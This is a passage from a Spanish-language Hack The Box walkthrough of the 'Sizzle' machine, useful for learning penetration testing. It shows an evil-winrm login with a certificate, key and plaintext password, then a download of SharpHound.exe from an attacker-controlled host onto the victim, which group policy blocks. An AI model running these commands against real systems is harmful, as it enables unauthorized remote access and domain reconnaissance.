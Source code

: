 Descargo la clave pública y con evil-winrm me conecto a la máquina

<img src="/writeups/assets/img/Sizzle-htb/8.png" alt="">

Finalmente gano acceso al sistema

```null
evil-winrm -S -c amanda.cer -k amanda.key -i 10.10.10.103 -u 'amanda' -p 'Ashare1972'

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Warning: SSL enabled

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\amanda\Documents> 
```

Para encontrar la forma más rápida de escalar privilegios, utilizo bloodhound

Para ello hay que subir un injestor a la máquina víctima y ejecutarlo, para que cree un zip que subiré al bloodhound

```null
*Evil-WinRM* PS C:\Users\amanda\Documents> iwr -uri http://10.10.16.6/SharpHound.exe -o SharpHound.exe
*Evil-WinRM* PS C:\Users\amanda\Documents> .\SharpHound.exe
Program 'SharpHound.exe' failed to run: This program is blocked by group policy. For more information, contact your system administratorAt line:1 char:1
+ .\SharpHound.exe
+ ~~~~~~~~~~~~~~~~.
At line:1 char:1
+ .\SharpHound.exe
+ ~~~~~~~~~~~~~~~~
    + CategoryInfo          : ResourceUnavailable: (:) [], ApplicationFailedException
    + FullyQualifiedErrorId : NativeCommandFailed
```
